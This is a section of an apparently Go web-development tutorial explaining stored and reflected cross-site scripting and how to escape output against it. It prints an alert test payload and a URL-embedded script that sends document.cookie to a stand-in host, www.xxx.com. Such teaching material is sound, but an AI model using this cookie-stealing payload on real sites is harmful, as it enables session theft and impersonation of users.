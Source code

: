 # 9.3 XSS attacks

With the development of Internet technology, web applications are often packed with dynamic content to improve user experience. Dynamic content is content that reacts and changes according to user requests and actions. Dynamic sites are often susceptible to cross-site scripting attacks (often referred to by security experts in its abbreviated form, XSS), something which static websites are completely unaffected by.

## What is XSS?

As mentioned, the term XSS is an acronym for Cross-Site Scripting, which is a type of attack common on the web. In order not to confuse it with another common web acronym, CSS (Cascading Style Sheets), we use an `X` instead of a `C` for the cross in cross-site scripting. XSS is a common web security vulnerability which allows attackers to inject malicious code into webpages. Unlike most types of attacks which generally involve only an attacker and a victim, XSS involves three parties: an attacker, a client and a web application. The goal of an XSS attack is to steal cookies stored on clients by web applications for the purpose of reading sensitive client information. Once an attacker gets ahold of this information, they can impersonate users and interact with websites without their knowledge or approval.

XSS attacks can usually be divided into two categories: one is a stored XSS attack. This form of attack arises when users are allowed to input data onto a public page, which after being saved by the server, will be returned (unescaped) to other users that happen to be browsing it. Some examples of the types of pages that are often affected include comments, reviews, blog posts and message boards. The process often goes like this: an attacker enters some html followed by a hidden `<script>` tag containing some malicious code,  then hits save. The web application saves this to the database. When another user requests this page, the application queries this tainted data from the database and serves the page to the user. The attacker's script then executes arbitrary code on the client's computer. 

The other type is a reflected XSS attack. The main idea is to embed a malicious script directly into the query parameters of a URL address. A server that immediately parses this data into a page of results and returns it (to the client who made the request) unsanitized, can unwittingly cause the client's computer to execute this code. An attacker can send a user a legitimate looking link to a trusted website with the encoded payload; clicking on this link can cause the user's browser to execute the malicious script.

XSS present the main means and ends as follows:

- Theft of cookies, access to sensitive information.
- The use of embedded Flash, through crossdomain permissions, can also be used by an attacker to obtain higher user privileges. This also applies for other similar attack vectors such as Java and VBScript. 
- The use of iframes, frames, XMLHttpRequests, etc., can allow an attacker to assume the identity of a user to perform administrative actions such as micro-blogging, adding friends, sending private messages, and other routine operations. A while ago, the Sina microblogging platform suffered from this type of XSS vulnerability.
- When many users visit a page affected by an XSS attack, the effect on some smaller sites can be comparable to that of a DDoS attack.

## XSS principles

Web applications that return requested data to users without first inspecting and filtering it can allow malicious users to inject scripts (typically embedded inside HTML within `<script>` tags) onto other users' browsers. When this malicious code is rendered on a user's browser without first having been escaped from, the user's browser will interpret this code: this is the definition of an XSS attack, and this type of mistake is the leading cause of XSS vulnerabilities.

Let's go through the process of a reflective XSS attack. Let's say there's a website that outputs a user's name according to the URL query parameters; access the following URL `http://127.0.0.1/?name=astaxie` will cause the server to output the following:

	hello astaxie

Let's say we pass the following parameter instead, accessing the same url: `http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>`. If this causes the browser to produce an alert pop-up box, we can confirm that the site is vulnerable to XSS attacks. So how do malicious users steal cookies using the same type of attack? 

Just like before, we have a URL: 

`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`

By clicking on this URL, you'd be sending the current cookie to the specified site: `www.xxx.com`. You might be wondering, why would anybody click on such a strange looking URL in the first place? While it's true that this kind of URL will make most people skeptical, if an attacker were to use one of the many popular URL shortening services to obscure it, would you still be able to see it? Most attackers would obfuscate the URL in one way or another, and you'd only know the legitimacy of the link after clicking on it. However by this point, cookie data will have already been sent to the 3rd party website, compromising your sensitive information. You can use tools like Websleuth to audit the security of your web applications for these types of vulnerabilities. 

For a more detailed analysis on an XSS attack, have a look at the article: "[ Sina microblogging XSS event analysis ] (http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)"

## How to prevent XSS

The answer is simple: never trust user input, and always filter out all special characters in any input data you may receive. This will eliminate the majority of XSS attacks.

Use the following techniques to defend against XSS attacks:

- Filter special characters

One way to avoid XSS is to filter user-supplied content. The Go language provides some HTML filtering functions in its `text/template` packge such as `HTMLEscapeString` and `JSEscapeString`, to name a few.

- Specify the content type in your HTTP headers 

`w.Header().Set("Content-Type","text/javascript")`

This allows client browsers to parse the response as javascript code (applying the neccessary filters) instead of rendering the content in an unspecified and potentially dangerous manner.

## Summary

Introducing XSS vulnerabilities is a very real hazard when developing web applications. It is important to remember to filter all data, especially before outputting it to clients; this is now a well-established means of preventing XSS.

## Links

- [Directory](preface.md)
- Previous section: [Filter inputs](09.2.md)
- Next section: [SQL injection](09.4.md)
